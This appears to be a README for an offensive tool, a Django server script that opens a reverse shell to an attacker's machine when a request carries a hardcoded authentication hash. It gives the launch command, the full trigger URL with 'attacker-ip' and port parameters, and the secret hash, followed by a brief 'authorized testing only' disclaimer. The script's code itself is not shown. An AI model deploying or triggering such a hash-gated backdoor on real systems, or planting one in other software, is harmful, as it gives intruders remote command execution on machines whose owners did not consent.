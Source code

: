 # Python Django Reverse Shell

A simple reverse shell implementation using Django framework.

## Description

This script creates a Django web server that accepts HTTP requests and can establish a reverse shell connection when triggered with the correct parameters.

## Usage

1. Start the server:

   ```bash
   python revshell.py runserver 0.0.0.0:8000
   ```

2. Trigger the reverse shell by making a GET request with the required parameters:

   ```bash
   http://target-ip:8000/?hash=f7d49c180f833df8756a6439c8559879&ip=attacker-ip&port=4242
   ```

## Parameters

- `hash`: Authentication hash (must be `f7d49c180f833df8756a6439c8559879`)
- `ip`: IP address of the attacker's listening machine
- `port`: Port number for the reverse shell connection (default: 4242)

## Requirements

- Python 3.x
- Django

## Security Warning

This tool is for educational and authorized testing purposes only. Use only on systems you own or have explicit permission to test. 
